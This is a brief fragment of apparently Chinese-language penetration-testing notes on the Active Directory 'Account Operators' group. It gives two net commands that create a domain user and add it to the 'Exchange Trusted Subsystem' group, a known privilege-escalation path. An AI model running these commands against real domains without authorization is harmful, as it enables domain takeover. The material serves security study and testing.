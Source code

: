 # Account Operators

可以创建一个用户到除了管理员组之外的任何组\
创建方法：

```clike
PS C:\> net user bigb0ss bigb0ss /add /domain
PS C:\> net group "Exchange Trusted Subsystem" bigb0ss /add /domain
```
